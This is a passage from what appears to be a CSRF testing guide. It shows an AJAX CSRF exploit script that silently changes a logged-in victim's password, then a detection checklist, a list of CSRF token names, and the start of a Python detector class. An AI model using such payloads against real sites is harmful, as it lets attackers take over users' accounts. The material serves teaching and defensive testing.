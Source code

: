 #### AJAX CSRF Exploitation
```html
<script>
// CSRF attack via AJAX (if CORS allows)
fetch('https://vulnerable-app.com/api/change-password', {
    method: 'POST',
    credentials: 'include', // Include cookies
    headers: {
        'Content-Type': 'application/json'
    },
    body: JSON.stringify({
        new_password: 'hacked123',
        confirm_password: 'hacked123'
    })
});
</script>
```

## 🔍 Detection Techniques

### 1. 🎯 Manual Detection

#### CSRF Detection Checklist
```bash
# Check for CSRF tokens in forms
1. Inspect form HTML for hidden CSRF tokens
2. Look for token validation in requests
3. Test requests without tokens
4. Try using tokens from different sessions
5. Check if tokens are properly randomized

# Common CSRF token names to look for:
- csrf_token
- _token
- authenticity_token
- csrfmiddlewaretoken
- __RequestVerificationToken
```

#### Basic CSRF Testing Process
```python
#!/usr/bin/env python3
"""
Basic CSRF Detection Tool

Author: LakshmiKanthanK(letchupkt)
Portfolio: https://letchupkt.vgrow.tech
"""

import requests
from bs4 import BeautifulSoup
import re

class CSRFDetector:
    def __init__(self, target_url, session_cookies):
        self.target_url = target_url
        self.session = requests.Session()
        
        # Set session cookies
        for cookie_name, cookie_value in session_cookies.items():
            self.session.cookies.set(cookie_name, cookie_value)
        
        self.vulnerabilities = []
```